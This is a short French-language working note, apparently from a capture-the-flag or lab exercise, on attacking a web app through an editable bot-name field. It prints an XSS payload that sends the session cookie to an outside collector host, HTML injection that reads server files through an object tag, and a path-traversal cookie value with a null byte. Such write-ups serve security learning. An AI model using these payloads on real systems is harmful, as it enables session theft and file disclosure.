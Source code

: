 On peut modifier le nom du bot à volonté, le payload XSS suivant est opérationnel

```javascript 
<script>alert(window.location);</script>
```

il y a un formulaire de contact sur la page, et il y a un cookie en PHPSESSID, à vérifier:

* que le cookie ne soit pas en HttpOnly
* que je puisse faire l'exfiltration du cookie via une requête avec ngrok ou sur mon WAN


Bonne nouvelle, le cookie n'est pas HttpOnly, je devrais pouvoir le faire transiter tranquillement vers mon point d'extraction
Par contre, hier soir, je n'arrivai pas à joindre mon point en direct et ngrok affichait une page d'alerte

```javascript
<script>document.location='//tiphergane.free.beeceptor.com/?c='+document.cookie</script>
```
l'injection XSS ci-dessus fonctionne très bien, je récupère bien mon PHPSESSID, mais j'aurais dû tester le formulaire de mail avant, car je ne sais pas s'il est K.O ce matin, ou down by purpose, je vais aller voir les sources si je peux trouver ma réponse

le changement de nom du bot est aussi sensible aux injections HTML, la citation suivante fonctionne:

```html
<q>miaou in da box</q>
```

maintenant, reste à voir si comme N1nja, j'arrive à trouver une RCE à partir de ces deux injections:


Confirmation, **le formulaire de mail est down by purpose**

Ce n'est pas une **XSS**, par contre, on arrive à lire les fichiers avec la commande HTML  suivante:

```html
<div><object data="login.php"></object></div>
```

La page apparait dans une frame à la place du nom. Pourions nous trouver un moyen en HTML de scanner les répertoires ?
dans le cookie style, faire injection suivante : ../c2/upload/flag.txt%00
